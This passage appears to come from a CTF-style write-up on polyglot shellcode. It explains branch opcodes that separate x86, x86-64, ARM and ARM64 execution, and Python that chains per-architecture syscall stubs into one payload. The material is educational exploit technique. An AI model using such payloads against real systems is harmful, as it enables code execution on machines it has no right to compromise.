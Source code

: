 but x86-64 will interpret it as:

```python
0x0000000000000000: xor ecx, ecx
0x0000000000000002: loop XX+5
```

What this means is that when running this opcode, x86-64 will follow the jump while x86 will ignore it, and we can essentially separate out x86 and x86-64 code execution with something like this:

```python
payload += unhex('31c941e22a')
payload += get_i386(sys_num, arg1, arg2)
payload += get_amd64(sys_num, arg1, arg2)
```

### Dealing with ARM and ARM64

After figuring out the x86 trick, I was stuck for quite a while until I came across [this](https://github.com/ixty/xarch_shellcode) cool project on github. The project `xarch_shellcode` is able to create shellcode that supports x86, x86_64, arm, and arm_64, and in its [readme page](https://github.com/ixty/xarch_shellcode/tree/master/stage0), it includes this:

```text
For the x86 / arm branching we use the following:
0xEB 0xXX 0x00 0x32     (with XX being the offset to x86 code)
    arm       andlo   r0, r0, #0xeb000
    arm64     orr     w11, w23, #7
    x86       jmp     $+0xa / junk
    x86_64    jmp     $+0xa / junk

For the arm / arm64 branching we use:
0xXX 0xXX 0xXX 0xEA
    arm       b       XXX
    arm64     ands    x1, x0, x0
```

Great, so with the two opcodes mentioned above, we can integrate x86, x86-64, arm, and arm64:

```python
payload = unhex('EB700032')
# arm / aarch64
payload += unhex('0b0000ea')
payload += get_arm64(sys_num, arg1, arg2)
payload += get_arm32(sys_num, arg1, arg2)
payload += '.'*(0x70-2-0x64-0x4)
# x86 / x86-64
payload += unhex('31c941e22a')
payload += get_i386(sys_num, arg1, arg2)
payload += get_amd64(sys_num, arg1, arg2)

# Results:
# x86: Success
# x86-64: Success
# ARM: Success
# ARM64: Success
# MIPS: Failure
```
